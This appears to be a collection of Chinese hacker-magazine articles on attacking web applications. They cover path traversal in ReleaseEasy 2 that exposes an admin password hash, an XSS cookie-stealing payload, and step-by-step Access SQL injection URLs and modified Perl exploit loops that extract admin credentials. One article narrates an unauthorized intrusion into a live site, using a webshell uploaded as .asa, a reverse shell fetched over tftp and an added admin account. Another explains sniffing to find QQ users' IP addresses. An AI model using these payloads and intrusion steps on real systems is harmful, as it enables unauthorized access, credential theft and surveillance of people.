> 在最近公布的众多论坛漏洞中，这个漏洞似乎总是最为轻小精悍的一个了。寻找漏洞是一种思维，同时也是一门艺术。Pskey 总是能够在通读代码后便发现这些问题，个人觉得这里面存在一种比较强的逻辑，或者说是一种混墨、一种灵感。如果大家对自己有足够信心并对脚本有一定了解的话，你也可以试试！

## 免费体验 Chinaren 校友录多彩留言


文/migan

Chinaren校友录大家一定都听说过，其校友录留言分为两种，一种为普通文本留言，另外一种便是我们今天要讲的多彩留言了。Chinaren经过多次改版，功能增加不少，不过它有一个小缺陷，尽管经过多次改版，我们仍然可以用来免费体验其多彩留言功能。


大家对Chinaren的“班级相册”应该比较熟悉吧。当你上传一张自己的主照之后，我们发现系统会在留言版中自动以你的名义发布一个公告(图1)。该公告可以提示其他班级成员去欣赏你刚才所提交的图片。这里我们对图片的说明是“CTRL+A”。


我们点击“我要留言”，这时，由于系统是以我们自己的用户名发出的，当然对其有编辑和删除功能(图2)。


点击“编辑”按钮后，会得到图3所示的编辑界面。现在我们就可以使用这个多彩留言界面了。比如这里我们插入一幅图片和一个超链接及相关文字(图4)。


到此为止，大家应该已经知道如何去免费体验Chinaren校友录的多彩留言。不过有一点需要说明的是：这个留言是和你上传的照片关联在一起的，当那张照片被删除的时候，这个留言也会跟着删除。所以，如果你想同时发布多个多彩留言的话，可能需要上传多幅图片。当然也可以通过这种方法让Chinaren系统自动给出的那个公告更人性化一些。

最后，我们再想想如何才能解决这个小缺陷。其实，对于Chinaren来说，只需要将这个公告贴的编辑权限去掉，或者直接以系统的名义发布公告，便可以弥补这个缺陷，并且不影响原有功能和美观。本文这里只是向大家介绍一种免费体验的方法，并不鼓励大家通过这种方式去节省Money，如果大批量使用，用这种方法其实也就过于麻烦了。

## ReleaseEasy 2

### 想说安全不容易

文／Roy

ReleaseEasy 系列分为个人版（R2HE）和企业版（R2EE）两种。个人版内含新闻发布、访问统计、文件管理和邮件群发等功能，免费公开代码。企业版比个人版多了调查、购物篮、在线订单等功能，需要付费购买。经过使用以后，我们发现两个版本几乎相同，仅仅是企业版比个人版多了 order.php、poll.php、shop.php 三个文件，所以个人版发现的漏洞在企业版上也同样存在。

首先来看看首页程序 display.php 的问题，在一些比较重要的变量上，R2HE 的过滤太简单了，display.php 中调用的一些用户提交的变量明显地造成了重大的隐患：

程序过滤了 visit_dir 中的“/”，使得通过 visit_dir 变量用户无法跨越目录访问：

```php
if (strstr($visit_dir, "../") === TRUE) {
    redir($visit_dir);
}
```

程序限制了 filesouce 变量不能提交后缀为 php 的文件：

```php
if (get_ext_name($filesource) == ".php") {
    echo "no access";
    exit;
}
```

仅此一点过滤显然不够严谨，我们下面就来利用一下这个可能存在问题题脚本。

我们提交 URL：`http://r2he.org/display.php?tagname=list0&step=2&visit_dir=myNews&page=1&filesource=/`，然后可以得到如图 1 所示的信息。目录中的信息被列出来了，虽然目录名和文件名有可能重叠，但是主要的信息依然可以得到。


图 1

我们通过提交 `http://r2he.org/display.php?tagname=list0&step=2&visit_dir=myNews&page=1&filesource=/../dir/file.xxx`，就可以访问除了 PHP 类型以外的文件，如果空间除了 PHP 还支持其他脚本语言，如 Perl、ASP 等就会泄漏程序的代码。

我们再提交 `http://r2he.org/display.php?tagname=list0&step=2&visit_dir=myNews&page=1&filesource=/../../../../../../../../..`，有必要的话多来几个“/../”，直到出错。如果 PHP.INI 中设置出错信息为 ON 的话，我们就能得到 Web 服务器的绝对路径，如下所示：

```text
Warning: open_basedir restriction in effect.
File is in wrong directory in /home/r2he.org/
display.php on line 58
```

其中的“/home/r2he.org/”就是绝对路径，得到绝对路径会让我们的越权访问更加顺利。

下面我们再来看看readarticle.php，它是一个用来阅读文章的程序，程序相当简单，就是读取文件，仅有的过滤就是禁止filesource中后缀为php，这个漏洞利用起来和display.php差不多。

我们首先提交`http://r2he.org/readarticle.php`，由于什么保护都没有，所以提交后自然就出错了，可以得到下面的一些出错信息，从出错信息中，我们同样得到了绝对路径。

```text
Warning: fopen("", "a+") - No such file or directory in /home/r2he.org/include/global.inc.php on line 649
```

接着我们提交`http://r2he.org/readarticle.php?filesource=/home/r2he.org/`，可以得到目录信息，如图2所示。


接下来的事情就和使用display.php来访问差不了。

难道只能访问到服务器上非PHP类型的文件吗？其实不然，下面我们来分析一下comment.php，这个程序是用来让用户评论文章的，利用它我们就可以访问PHP类型的文件。

`comment.php`中`if ("view" == $action)`部分没有对用户提交的数据做过滤就读取文件并显示，代码如下：

```php
$com_file = "<b>该文的评论如下：</b>";
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; $com_del = "<br>";
$com_file .= read_file("comment/".$name);
$com_file = $com_form;
hold('',$com_file);
```

我们提交`http://r2he.org/comment.php?action=view&name=../../logout.php`，然后查看打开网页的源代码：

```html
该文的评论如下：</b>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<br><?php ...
```

```php
include 'include/global.inc.php';
include 'include/config.inc.php';
include 'include/reclass.php';
include 'include/tplclass.php';

$content = '';
$admin_tpl = new tpl('admincp.htm');
```

PHP文件的源代码全部都显示出来了。大家一定猜到PHP代码泄漏的后果了吧？没错，管理员的密码就是用PHP文件来存放的，我们可以一并拿来借用一下。

我们提交`http://r2he.org/comment.php?action=view&name=../../usr/`，就可以得到管理员目录的信息，如图3所示。


管理员的信息存放在`adminname.inc.php`（adminname为管理员用户名）中，看来不只一个管理员啊，难道已经有人来参观过了？

接着我们提交`http://r2he.org/comment.php?action=view&name=../../usr/yy.inc.php`，然后查看源代码。

```html
该文的评论如下：
</b>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<br><?php $apass="f0a4058fd33489695d53df156b77c724"?>
```

这不是密码吗！具体怎么用这个md5值就不多说了，实在不行就跑字典嘛。其实，我们还可以借助别的方面的信息来获取管理员的密码。在`login.php`中，输入错误的密码都将被记录在`log.inc.php`中，管理员非常可能因为自己输入错误而将部分密码记录在`log.inc.php`中。我们可以用`comment.php`打开这个文件，然后利用错误的密码制成字典，这样会提高找到密码的可能性以及速度。有了密码就可以登陆控制面板`admincp.php`，这样就控制整个网站的页面了。

`comment.php`文件的漏洞威胁比较大，可以让入侵者得到服务器上任意的文件，如果是虚拟主机，而且目录的权限设置不当的话，整个服务器上的网站都会受到威胁。

## 利用漏洞：轻松攻击约稿奇兵

文/angel & 风清扬

约稿奇兵是由劲风独立开发与维护的一个集作者投稿、编辑审稿和稿费管理等诸多有创意的功能为一体的ASP程序。由于该程序大量文件没有对提交的表单进行字符过滤，导致非法用户可提交精心构造的语句执行跨站脚本，轻则致使浏览者中木马、信息泄露，重则格式化硬盘。另外，由于view_pf.asp与xuanti_xiugai1.asp文件没有过滤用户提交传递给SQL查询的输入，导致远程攻击者可以利用这个漏洞进行SQL Injection攻击，获取任意用户的密码。下面我们就来看看如何利用这些漏洞。

注册，系统并没有提示禁止提交非法字符。于是我们使用“<script>alert();</script>”为用户名注册；可惜单表域限制了字符数量，这样就限制了字符长度，不过它可能并没有禁止从外部提交数据。因此，我们可以定制一个注册页，将form action指向该站点注册页，果然注册成功，提交的时候发现，该站点有两种会员可以注册，一种是直接注册的（作者），一种是注册后要管理员验证才可以使用的（编辑）。上面我们注册的只是个作者，这次注册编辑看看，仍然按刚才的方法，注册了会员<script>alert('1');</script>提交到最后，系统给出了提示：您已经注册成功，而空过两行后又出现，您注册的用户名里含有'<等非法字符，请重新注册。这里又是程序上的一个BUG，过滤没有完全实现，先不管那么多，进入看看里面的东西如何。

进入后，先到会员列表查看会员，果然弹出两个……

### 跨站脚本攻击

既然是瞎子摸象式的测试，这个未公开的约稿奇兵程序就应该会有很多这样那样的漏洞。比如跨站脚本问题，最简单的是使用“'”、“;”以及“>”作用户名……

以上的内容主要说明了ReleaseEasy的一类文件被随意访问的问题，而下面将提到的是同样由于过滤用户提交信息不充分而造成的XSS漏洞（跨站脚本执行漏洞）。

在索引文件index.php中，R2HE记录了每个访问者的信息，包括用户的IP、引用页、系统版本、浏览器版本，直接将这些信息未做过滤地写到了log目录中去，并且提供给管理员查看。我们可以在引用页、系统版本和浏览器版本中任意提交我们想要的信息，用NetCat(NC.exe)等工具就可以实现，如<script>alert(document.cookie);</script>，我们用这个漏洞得到管理员存在cookie中的信息，例如论坛管理员的账号等。解决的方法也很简单，过滤掉特殊字符，如'、"、<、>等即可。

> ### 感
我们仅仅粗略地检查了一下R2HE的代码，就发现了它存在以上的一些问题。相信除此之外还会存在一些别的安全性问题。造成以上的问题主要原因是程序没有对用户的输入做充分的过滤。程序员在写CGI程序的时候应当充分考虑程序的安全性，以最坏的打算来处理可能出现的状况。不要指望所有的用户都会按照自己预先想好的方式来访问程序。关于本漏洞的具体防范方法，我们将在后研中专门介绍。本文仅作技术研究之用，如果利用本文提及的方法进行恶意攻击，后果自负。

### SQL Injection 攻击

除了上面所说的跨站脚本攻击外，该程序还存在 SQL Injection 漏洞：通过手工检测，发现这个漏洞存在于 `xuanti_xiugai1.asp`（选题查询）、`view_pf.asp`（会员查询）两个文件，检查了提交的字符中是否有单引号和分号。检查的过程可能有些不同，但还是差不多的。尽管过滤了两个特殊字符，但系统是 access 数据库，仅过滤这两个字符根本不能挡住攻击者，因为这两个文件没有过滤空格，我们照样可以玩 SQL Injection。提交下列的代码：

代码：

```
text
xuanti_xiugai1.asp?xuan_id=56 and 1=1
——正常显示

xuanti_xiugai1.asp?xuan_id=56 and 1=2
——警告：你正在企图非法浏览别人的选题

view_pf.asp?id=74 and 1=1
——正常显示

view_pf.asp?id=74 and 1=2
——资料全部显示空
```

好了，知道该做什么了吗？跨表查询，比如提交下面的代码：

```
view_pf.asp?id=74 or id<>(select count(*) from admin)
——判断 admin 表是否存在

view_pf.asp?id=74 and 1=(select id from admin where password<>'' and id=1)
——判断字段（列）是否存在

view_pf.asp?id=74 and 1=(select id from admin where len(password)=9 and id=1)
——判断 id 为 1 的 password 字段的长度

view_pf.asp?id=74 and 1=(select id from admin where left(password,1)='1')
——判断 id 为 1 的 password 字段左边的第一位字符
```

这可是 access 数据库最常用的 SQL Injection 攻击方法了。关于详细的攻击方法，大家可以参考 PsKey 的《SQL Injection whit access》和我的《一个跨表查询的例子》，都很详细。我们此次任务是检测程序的安全性，目的已经达到了。

最后我再说说攻击这种未公布源代码的程序的思路。

- 1. 判断漏洞是否存在。
2. 如存在，猜表名及其字段，一般是猜存放用户资料的表。
3. 获取字段长度。
4. 逐位推算字段内容。如果有中文字符，转换成 ASCII 代码。
5. 猜管理员入口（这步其实可以放在第二）。

事实上，对于这种没有公布源代码的“瞎子摸象”式的攻击，需要的就是耐心，从返回的各种信息中分析可能存在的漏洞，进而提交精心编制的指令，从而发现潜在的问题。如果没有耐心，一切都是空谈！`//D`

在看过很多攻击实例之后，我们会真正体会到“授人以渔”的含义：与其累积一些工具的使用和事例介绍，还不如直接给熟悉的朋友提供好的入侵思路；而本文正是作者在对国内某安全网站进行“测试”的一些经过和体会，其中的思路很值得我们借鉴。

- 难度：中
- 前置知识：脚本注入

## 从填空游戏到最高权限

### ——几乎完美的注入攻击实例

学习注入一段时间后，发现也没有什么好做的了，大多数的情况下无非是一个猜密码的无聊过程，惟有猜完密码的一瞬间会有些许的快感。其实很多时候，我们都是在自己的机器上测试；偶尔需要在一台不同配置的机器上测试时，才会花些时间做做假hacker，我记得在一次猜解行动中，大虾甲给了一个刚好涉及到这方面的地方——junXXXX.org，或许更多的是出于对hacker网站的偏爱，我们开始了一次颇有意思的注入之旅。

首先，当然是不费太大的力气就找到了管理的入口和可以注入的地方，shownews.asp对NewsID没有很好的处理，对这个进行注入很快就顺着很老套的思路猜中了表名admin，还有列名username和password。

接着就是怎样去猜的问题了。应该说这个地方才是八仙过海，各人有各人的方法，我喜欢弄个有限状态自动机自己跑，有些人就喜欢享受一个个猜的快感。其实事先大虾甲猜了一个用户名最短的人的密码，剩下了一个长度为二的用户名给我。用户名肯定是中文的了，不然猜两位的用户名还不是和吃豆腐一样，大虾甲做事心狠手辣，好事情是轮不到我的 :-）

那时候我们对猜测中文的方法已经很清楚了，具体做一下不过是实践的问题，开始先用asc来做的：

```
text
http://www.junXXXX.org/shownews.asp?
NewsID=264 and 0<>(select count(*) from admin
where password='XXXXXXXXXXXXXX' and asc
(left(username,1))<=-10000)
```

像幸运52一样，慢慢地缩小-10000的范围，最后得到了一个确定的数字，不大也不小：

```
text
http://www.junXXXX.org/shownews.asp?
NewsID=264 and 0<>(select count(*) from admin
where password='XXXXXXXXXXXXXX' and asc
(left(username,1))=-10532)
```

-10532是什么东西呢？打开计算器，选择科学型，输入-10532然后转换成为十六进制的数，马上就得到了FFFFFFFFFFFFD6DC，我们要的只是单字，只取D6DC就可以了。用UltraEdit32打开一个文本，Ctrl+H切换到HEX编辑，依次输入D6DC，呵呵，右边的文本出来了一个周字。因为对自己没有信心，还是又确认了一下：

```
text
http://www.junXXXX.org/shownews.asp?
NewsID=264 and 0<>(select count(*) from admin
where password='XXXXXXXXXXXXXX' and asc
(left(username,1))='周')
```

周什么？如果这个周是姓的话，后面就难猜了，还好我们先用周字组了几个词，猜到“周末”的时候，结果就出来了。我们用这对用户名密码登录管理界面，结果失败了。

登录失败是很正常的事情，我遇到过很多的admin表里面是可以控制用户是否具有登录权限的。其实到这里我想做的事情已经完了，我又返回去用这个“周末”见的名字测试between来猜中文的方法，在否定了between下中文字符的顺序是按照区位码排定的时候，大虾甲那边传来消息，可以登录了。他的想法很简单，也很巧妙，就是用top 1 id或者是把站长的名字作为用户名字来猜密码，很多情况下这都是有用的。当然如果实在不行，也可以弄个程序慢慢跑，直到把这张表全部弄出来为止。

我们用XX公子的账号登录，转了转，发现有一个地方可以上传任意文件，马上找了一个海阳木马准备传上去，可是写程序的人似乎已经考虑到了这方面的因素，拒绝了对扩展名为.asp的文件的上传——这倒和DVBBS有点像啊。

这时候大虾乙提醒我们改名为.asa后上传，我们把后缀名改成.asa上传一看，果然成功了。这其实是一个服务器配置的问题，默认的应用程序映射中，扩展名为.asp/.asa/.cer/.cdx都默认的交给asp.dll处理，想必是管理员忘了删除无用的一些映射，而且上传后的目录也没有正确的权限设置，可以顺利地运行。总之，我们把修改过的顶端木马改成shell.asa上传并运行成功后，一个感觉是这台服务器多半是托管的，而且管理员绝对不是老手。

从顶端木马收集的信息看来，FSO组件是没有禁用的，用最为传统的那个asp shell似乎更为顺手，于是我们又用相同的方法上传了使用FSO的asp shell。这时我们发现运行完后没有回显，命令肯定是执行了的，没有回显的话实在太不方便了，这个问题要解决一下。

这个shell是把执行的结果重定向到一个临时文件，然后打开文件返回给我们结果的。没有回显的话，多半是临时文件创建失败，而临时文件创建失败无非是空间不够或者是目录没有写的权限，这样的话，看起来后者的可能性大一些。我们赶快改了一下shell中有关临时文件的目录的设定，从c:\改成了c:\winnt（最好的当然是Web的路径，几乎可以肯定有写的权限，而且从顶端木马中也可以很容易知道），上传后执行，OK，有回显了。当然，还可以进一步考虑一下，如果不能访问cmd.exe怎么办？解决的方法是有的，自己上传一个就可以了，具体怎么做大家可以动动脑筋，因为这个服务器给我们的第一感觉是配置得不好，所以一路下来就是按照最简单直接的方法，而且看起来也非常的顺利。

有了Web上的shell，一切都很好办，tftp传上去一个自己写的rc.exe，反向连接获得一个真正的shell。服务器里的各个目录几乎都能读，里面的明文MSSQL密码也能看到，不过用处不大。我们上传了ey4s的xdcbug2.exe和debugme2.exe上去，运行后也顺利的得到了反向连接过来的shell，当我们小心翼翼的敲入net1 user a a /add后看到“命令成功完成”时，心里已经明白这台机器尽在掌握了。

**注：** net1 和 net是几乎一样的，在xdebug获得的shell中如果用net会出错，只好用net1。

后来发现还有一些古怪，我们从终端客户服务登录后看到SP4补丁是打了的，我们获得最高权限的shell并不是提升权限获得，而是IIS中应用程序保护设定为低所至，这应当是不正常的配置，很难说以前是否有人来修改过。无论怎样，我们是拿到了管理员的权限的，运气也是实力的一部分，不是吗？再说了，就算不能直接提升，我们也可以用骗管理员的方法来获得更高的权限，比如配置folder.htt，或者是cmd.exe，这只是个时间问题。

拿到了最高的权限也没什么意思，让我感到高兴的是搞明白了between是怎样比较汉字的。我们删掉了添加的账号，一点没有动主机就出来了。回想一下SQL注入的东西，翻来覆去就那几种情况，还能完出什么花样呢，除非Advanced SQL Injection那篇文章中提到的，最多你还能用backup做个shell，或者是猜猜物理路径，这些也就无非是一些技巧，看实际的情况下怎么运用了。脚本方面的漏洞很多，而且不断地被人发现出来，为了了解漏洞的原理而测试一下还说得过去，如果单单眼看着别人后面去利用这些漏洞就太无聊了。如果没有绝妙的文章，我们也就看看别人有没有什么巧妙的想法，反复做的话实在是无趣，更何况漏洞的公开之日也就是漏洞的灭亡之时。

**编后：** 在脚本方面，从千叶公布的漏洞来看，注入这一类占了很大的比例，能够不断发现漏洞的确是件令人兴奋的事情。以前我Pskey约稿的时候，他总说，好，我拿代码看几天，感觉他总是看着脚本代码就可以很容易找到一些漏洞。各位读者朋友，如果你们对脚本安全有兴趣，不妨也在这方面多加尝试。

文章管理系统以其易用性、高效性及其智能化等特点吸引了众多用户，因此文章管理系统的安全问题就是个值得大家关注的问题了，如果被他人拿到管理员密码，辛苦添加的文章就有可能一去不回了。更可怕的是，这样会把网站的部分内容弄得面目全非！下面我们就以盗帅文章系统为例，深入描述其漏洞，了解这个漏洞的威力！

## 得到管理员权限

### 就这么简单

### ——轻松利用盗帅文章系统变量未处理漏洞


文／安全天使·angel

最近帮朋友查看站点的安全性问题，该站点使用的是盗帅文章系统，由于没有版本号，从功能上判断应该是最新版。我不知道还有怎么样的漏洞，就先去找来一个研究一下代码，以及熟悉一下数据库的结构。在看到show.asp这个文件的时候，发现下面的代码似乎存在问题。

（言），这样我们就可以进行跨表查询了。顾名思义，就是提交精心构造的语句查询其他表里面的数据。这个show.asp的ID没有检查就放进查询语句，查询的表是article，我们通过提交子查询语句来查询admin里面的用户名和密码，这样就是跨表查询了，也是SQL Injection的一种。

```
asp
id=request("id")
Set rs = Server.CreateObject("ADODB.Recordset")
sql="SELECT * FROM article where id="&id
rs.OPEN sql, Conn,1,3
if rs.eof then
    article="没有该文章"
else
```

注意：在实际中，浏览器会自动把地址栏中的空格转换为%20，以下所有提交的语句中包含的%20我已经全部处理掉，这样大家看得更加清楚。

跨表查询是通过什么来判断呢？通过提交的等式、不等式看返回的页面。比如提交下面的代码：

再看看下面的代码：

```
text
http://127.0.0.1/show.asp?id=1 and 1=1
http://127.0.0.1/show.asp?id=1 and 1=2
```

```
asp
<!-- #include file="db/user.asp" -->
<!-- #include file="config.asp" -->
<!-- #include file="ubb.asp" -->
<!-- #include file="global.asp" -->
```

在这些被引用的文件中，没有一个是对提交的数据做了检查的，果然有漏洞。最主要的是没有禁止空格（仅禁止空格是不够的，这里是相对这个程序而言）。

看到后面的1=1，1=2就是一个关键，前者值为真，后者值为假。如果漏洞存在，一般返回的两个不同的页面或者不同的错误信息。具体来说就是刚才我们看的盗帅文章系统2002特别版。当我们提交第一句的时候文章正常显示，提交第二句的时候返回“没有该文章”，这样我们就可以通过页面的信息判断我们提交的子查询是否获得正确信息。

下面再来看看这句SQL查询语句：

```
select 字段 from 表 where 某标准
```

这条语句的意思就是以某标准查询在某表中的某字段，select min(id) from admin where len(admin)=5 这句的意思可以这样理解，以字段admin中长度为5的字符串为标准在admin表中查询ID字段中的最小值。我这样解释可能比较难理解，我是根据语句的解释来解释含义的，这里涉及的函数我们就不讨论了，大家可以去翻翻专业的数据库书籍。这句查询语句是查询ID的，所以返回的就是ID字段中的值，比如返回2，那么在刚才的查询中：

```
text
http://127.0.0.1/show.asp?id=1 and 1=(select min
(id) from admin where len(admin)=5)
也相当于
http://127.0.0.1/show.asp?id=1 and 1=2
返回“没有该文章！”，因此为假值，当我们提交
http://127.0.0.1/show.asp?id=1 and 2=(select min
(id) from admin where len(admin)=5)
```

正常显示文章，说明ID后跟的是等式，所以我们要查询的最小ID字段中的值是2。下面我把所提交的语句得到真值的结果全部写出来，大家结合上面的理论很容易就可以理解了。为了容易看，我把浏览器所产生的空格都去掉了。

```
text
http://127.0.0.1/show.asp?id=1 and 1=(select min
(id) from admin where qx=2)
——获得管理员权限的最小id值为1
http://127.0.0.1/show.asp?id=1 and 1=(select id
from admin where len(admin)=5)
——获得id为1的管理员的用户名长度为5
http://127.0.0.1/show.asp?id=1 and 1=(select id
from admin where len(pass)=5)
——获得id为1的管理员的密码长度为5
http://127.0.0.1/show.asp?id=1 and 1=(select id
from admin where left(admin,5)=admin)
——获得id为1的管理员从左边数起的5位用户名为admin
http://127.0.0.1/show.asp?id=1 and 1=(select id
from admin where left(pass,5)=admin)
——获得id为1的管理员从左边数起的5位密码为admin
```

如果大家还是不好理解，我们就来看看最具体的过程。首先，提交一个子查询：

```
text
http://127.0.0.1/show.asp?id=1 and 1=
(select min(id) from admin where qx=2)
```

得到管理员(qx=2)的最小ID值，现在我们的目标就锁定这个ID值为1的管理员。如果返回错误，我们就把and后面的1改大点，比如2。现在我们就开始获取这个管理员用户名的长度：

```
text
http://127.0.0.1/show.asp?id=1 and 1=
(select id from admin where len(admin)=5)
```

这个等式在admin表里查询admin字段长度为5的ID，如果对了，那当然就是1了，所以等式成立。如果长度不是5，那么就会显示“没有该文章”。这里len()函数用于取字符(串)的长度。知道用户名长度后，我们就开始猜测用户名。用left()函数从左边或用right()函数从右边逐位推测出用户名：

```
text
http://127.0.0.1/show.asp?id=1 and 1=
(select id from admin where left(admin,1)=a)
```

在admin字段里从左边数起的前一位字符为a，正确，显示文章，如果错了，返回“没有该文章”。

```
text
http://127.0.0.1/show.asp?id=1 and 1=
(select id from admin where left(admin,2)=ad)
```

在admin字段里从左边数起的前两位字符串为ad，正确，显示文章，如果错了，返回“没有该文章”。

…………

最终得出：

```
text
http://127.0.0.1/show.asp?id=1 and 1=
(select id from admin where left(admin,5)=admin)
```


图1

在admin字段里从左边数起的前5位字符串为admin，因为长度只有5，那么admin就是用户名。这就是推测用户名长度以及具体的用户名的过程，密码也是同一个道理。这个过程大家可以参考图1和图2所示的内容。

**注意** 如果在left(pass,1)=后面是数字，那么要把数字括上


图 2

字用单引号包含起来，例如left(pass, 1)='1'，否则程序会出错。

## 制作Exploit

现在我们知道管理员的用户名和密码了，但是实际上，没有哪个安全意识高的管理员的密码是8位以下的，用户名也一样。如果我们真的靠手工提交语句，那我们真的要等到老了，所以我们要做一个Exploit来为我们完成这项工作。这方面的Exploit当然用Perl写比较好了，但我们这种菜鸟不会写怎么办？活学活用，修改别人的。下面我们来分析一下由wawa写的Crack user&pass for DV_article system。

其实这类脚本都是差不多一个道理，利用某一个文件的漏洞来进行跨表查询的操作。尽管你看不懂大多数代码，但刚才我们不是学习了那个SQL查询语句吗？我们就可以依葫芦画瓢把这个针对动网的Exploit改为针对盗帅文章的了，想改成什么样的都可以啊，还可以扩充其他功能。看看下面的代码：

```perl
for ($adminid=1; $adminid<=100; $adminid++) {
    $way1 = "id=$txtid%20AND%20$adminid=(select%20min(id)%20from%20admin%20where%20flag=1)";
}
```

上面的$adminid变量是定义管理员ID的取值范围1－100，$后面的都是变量，不用去改。(select%20min(id)%20from%20admin%20where%20flag=1)这里就是我们要改的查询语句。动网的admin表里面的flag字段等于1的是管理员，而盗帅的是字段qx等于2的是管理员。我们就可以把flag=1改为qx=2，from%20admin里面意思是从admin里查询。盗帅的和动网一样，我们就不用改了。

改完后的代码如下：

```perl
for ($adminid=1; $adminid<=100; $adminid++) {
    $way1 = "id=$txtid%20AND%20$adminid=(select%20min(id)%20from%20admin%20where%20qx=2)";
}
```

再看这句代码

```perl
for ($passlen=1; $passlen<=10; $passlen++) {
    $way = "id=$txtid%20AND%20$passlen=(select%20len(password)%20from%20admin%20where%20id=$adminid)";
}
```

上面是$passlen变量，也是定义取值范围，即密码长度。动网存放密码的字段是password，盗帅的是pass，所以我们要把password改为pass，改完后就是这样：

```perl
for ($passlen=1; $passlen<=50; $passlen++) {
    $way1 = "id=$txtid%20AND%20$passlen=(select%20len(pass)%20from%20admin%20where%20id=$adminid)";
}
```

由于盗帅的密码最大长度是50，所以我们必须把$passlen的最大值改为50。其他的地方大家应该会改了吧？都是依葫芦画瓢的，只要表名、字段名、数据长度对就可以了。这样你也可以在没有办法写出Exploit的时候借用一下现成的。但是要真的要写出好的Exploit，还得下大力气精通那些编程语言，毕竟这是修改别人的嘛……

### 总结

- 确定是否存在漏洞，也就是提交值为“真”和“假”的两个语句，根据返回信息判断。
- 找到源程序来研究数据库的结构、表名、字段等。如果是自己写的或是未公开的程序，只有瞎子摸象了。
- 知道表名和字段后用函数慢慢猜出我们想要获得的字符串（或编写Exploit来提高效率）。

## 伪天下出港与争锋

### ——NetXRay简介与应用


文/太傅

NetXRay是由Cinco Networks公司研发的一款用于高级分组检错的网管软件。它可提供分组获取和译码的功能，可用图形方式明了地显示，网络中哪里正出现严重的业务拥塞；其强大的功能可以让网管们随时监控网络的各种状态，维持网络的正常运行。NetXRay就像一把锋利的“屠龙刀”，正义之士用它来行侠仗义，邪恶之徒用它来为所欲为！今天，就让我们来走进NetXRay，通通透透地了解这把网络屠龙宝刀！

## 二、NetXRay应用场合

目前，大家的上网方式无非是两种，一是在家拨号上网，另一种是局域网方式，如网吧、单位、学校等，炒得铺天盖地的宽带网也大多采用局域网方式。在前一种方式中，NetXRay能看到你和哪台机器建立了连接，交换了什么数据，你和对方的IP地址和端口等所有细节；在后一种方式中，只要连接设备是Hub，你就能监听到网络中任何机器之间交换的数据（即使对方没有和你建立连接），这下你的机会来了。如果你是网管，通常可将Sniffer类（NetXRay就是Sniffer的一种）的软件装在服务器上，服务器又连到Internet，这样，整个局域网其他机器在Internet上所做的一切网管都能监听到。

## 三、NetXRay基本用法

先把NetXRay和其汉化补丁下载下来吧。安装和汉化完成后（注意：汉化要手动选择好正确路径），第一次使用，会让你选择想监听的网络设备，以后可在软件主界面选择“Tools”菜单中的“Select Network Probe/Adapter”（网络探测器/适配器）项。如果机器既有网卡（连接到本地局域网），也有Modem（连接到Internet），那么查看局域网的数据选择网卡，查看Internet的连接选择Modem。通常机器只有一种联网设备，可以不用选择该项。

查看IP地址选择主界面“Tools”菜单的“Host Table”（或点击工具条中的“Host Table”按钮）。在弹出的hosttable界面（图1）的下部有3个选项卡：MAC、IP和IPX。MAC是网卡的物理地址（48bit），理论上讲，世界上任意两块网卡的MAC都不同，IPX是一种网络协议。这些都不管它，点击IP选项卡，可以看到网络中所有主机的IP地址，其中有一个是你机器的IP地址。


图1

Host table左侧最上面的4个按钮，分别是IP地址的各种显示方式，有详细的、表格的、柱状图和饼状图等。选中最上面的“轮廓”按钮；再点击IP地址前面的小电脑标识，可选中某个IP的机器，再按下“Capture”按钮，就开始捕捉那台机器的数据。在“Capture”菜单的“End And View”项中，可查看已经捕获的数据。


想使用仪表板，选择“Tools”菜单中的“Dashboard”。


它是一个性能量测器，可提供分组获取和译码的功能，它还提供了图形功能，可以确切地指出在你的网络中哪里正出现严重的业务繁忙。在Dashboard面板中（图2），有3个指示网络的运行情况，以供分析网络用。第一个表示当前网络上的流量，每秒多少个包；第二个表示网络的利用率；第三个是网络数据包的错误情况，非常直观。

## 三、用NetXRay查QQ好友IP地址

### 1. 在QQ中查别人的IP地址

现在，许多人都在使用QQ，如果你想知道某人的IP地址，用NetXRay将非常方便。以下介绍3种方法。

- 方法一：运行NetXRay，在菜单中选取“Tools”→“Matrix”，弹出如图所示画面（图3）；选择画面下端的“IP”标签；按右键，在弹出的菜单中选中“Show Select Nodes”（图4）；


开QQ和你想查的人聊上一句，同时观察窗口，在数据包发送的那一瞬间颜色有变化的数据线就是你和他之间的IP连线。看看数据线的另一头，那个IP地址（61.138.121.18）就是你梦寐以求的东西（图5）。

- 方法二：首先运行NetXRay，然后选取“Tools→Capture”，之后会弹出一个窗口（图6），点击菜单“Capture→Start”，给你要查的人发个信息；然后选择“Capture→End And View”，这时又弹出了一个窗口，窗口的底部有5个选项，你选第二个“Matrix”试试！是不是变了一个窗口？在下拉式菜单中选择IP，大功告成了，看到IP连线了吗？连线一头是你的IP，另一头就是你想查的人的IP。注意：和别人的IP连线应该是浅绿色的。

- 方法三：在菜单中选取“Tools→Host table”，这时会出现图1所示窗口，在底部有3个选项，选其中的“IP”，因为你想查的是IP嘛！此时窗口又变了。看到很多IP了吗？如果你打开网站的话，在内容框里就会出现很多协议，其中有other、http、ICMP、DNS，如果你要看IP，就把注意力集中在other协议里，那里应该有很多IP吧？记住：最重要的就是给对方发一个信息过去啊！

概述：若查看QQ上某人的IP地址，你随便发一句话给他，不管有没有把你加为好友，他的IP立即会显示在上面。如果IP地址太多，搞不清的话，关了其他程序只开QQ即可。

用这种方法还可以查木马，就是看一下这些IP中有没有不熟悉的非法连接。例如我关了所有的程序，只开着蚂蚁，就可以看到蚂蚁的那个广告条有一个连接，它的IP就在上面。

## 四、用NetXRay捕获数据包

仅用NetXRay来看IP地址，未免有点大材小用了，用它来捕获数据包才是最精采的，这也是NetXRay最出色的功能。再次说明：如果你是拨号上网，只能捕获你和对方机器所交换的数据包；如果是局域网方式并且用交换机的话，也只能看到和你建立连接的机器交换的数据和一些广播数据，除非你把它装在连接到Internet的服务器上。如果用局域网方式并且使用Hub的话，NetXRay能捕获网中的任何数据，这是由Hub这类硬件的广播性质所决定的，任何人都改变不了。我们可以用NetXRay清楚地看到局域网内各主机间的通信情况，可以看到那台机器正在哪台机器正在通信，并且可以清楚的看到哪台机器正在发出信息（发出信息的时候线条将会闪动），还可以看到网内是否有盗用IP发生。

